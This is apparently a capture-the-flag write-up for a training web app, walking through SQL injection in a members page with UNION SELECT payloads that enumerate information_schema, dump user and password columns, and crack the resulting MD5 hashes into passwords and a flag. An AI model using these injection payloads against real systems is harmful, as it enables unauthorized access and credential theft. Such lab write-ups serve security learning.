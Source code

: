 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found password and user columns on db_default .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this  Decrypt this password -> then lower all the char. Sh256 on it and it's good !: 5ff9d0165b4f92b14994e5c685cdce28 cracking it we get :		FortyTwo. and lowering it to fortytwo and using Sh256 we get 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8 cracking it we get :shadow.
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default
```
